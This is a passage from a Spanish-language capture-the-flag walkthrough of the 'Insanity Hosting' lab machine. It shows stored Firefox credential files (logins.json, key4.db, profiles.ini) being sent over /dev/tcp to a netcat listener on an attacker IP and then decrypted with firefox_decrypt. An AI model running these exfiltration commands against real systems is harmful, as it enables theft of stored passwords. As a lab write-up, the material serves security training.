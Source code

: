 Los que mas nos interesan son`cookies.sqlite`, `key4.db` y `logins.json`

[Según el propio soporte de Firefox](https://support.mozilla.org/en-US/questions/1310179), tenemos el archivo `logins.json` que son las credenciales almacenadas encriptadas, y también tenemos un archivo `key4.db` el cual contiene la clave utilizada para encriptar estos combos, por lo cual nos lo vamos a copiar a nuestra máquina.

Para ello podemos ponernos en escucha con `nc` por el puerto 8081 en nuestra máquina atacante.
```console
nc -lvnp 8081 > logins.json
listening on [any] 8081 ...
```

De esta forma podemos transferir el archivo.
```console
[elliot@insanityhosting esmhp32w.default-default]$ cat logins.json > /dev/tcp/192.168.45.167/8081
```

Luego podemos comprobar el hash MD5 de los archivos para ver que coincide y que el archivo no ha perdido su integridad.
```console
[elliot@insanityhosting esmhp32w.default-default]$ md5sum logins.json
f448760874a5af222695b7dd53143c99  logins.json
```

Y vemos que en nuestra máquina coincide.
```console
md5sum logins.json
f448760874a5af222695b7dd53143c99  logins.json
```

Hacemos lo mismo para el archivo `key4.db`
```console
cat key4.db > /dev/tcp/192.168.45.167/8081
```

## Decrypting Firefox stored credentials && Abusing password Reuse
Y ya tenemos los archivos que queríamos, `key4.db` y el `logins.json`, ahora podemos utilizar [esta herramienta](https://github.com/unode/firefox_decrypt) para desencriptar las credenciales de `logins.json`.

Para usar esta herramienta vemos que nos pide un archivo `profile.ini` que realmente es una errata y es el `profiles.ini` de firefox.
```console
python3 firefox_decrypt.py ./
2025-01-30 04:40:20,898 - WARNING - profile.ini not found in ./
2025-01-30 04:40:20,898 - WARNING - Continuing and assuming './' is a profile location
2025-01-30 04:40:20,899 - ERROR - Couldn't initialize NSS, maybe './' is not a valid profile?
```

En la máquina víctima, retrocedemos un directorio y nos transmitimos este archivo.
```console
[elliot@insanityhosting firefox]$ cat profiles.ini > /dev/tcp/192.168.45.167/8081
```

Ahora con `firefox_decrypt.py` vemos que intenta buscar estos archivos en un directorio llamado como el perfil.
```console
python3 firefox_decrypt.py ./
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2
2025-01-30 04:40:31,206 - ERROR - Profile location './esmhp32w.default-default' is not a directory. Has profiles.ini been tampered with?
```
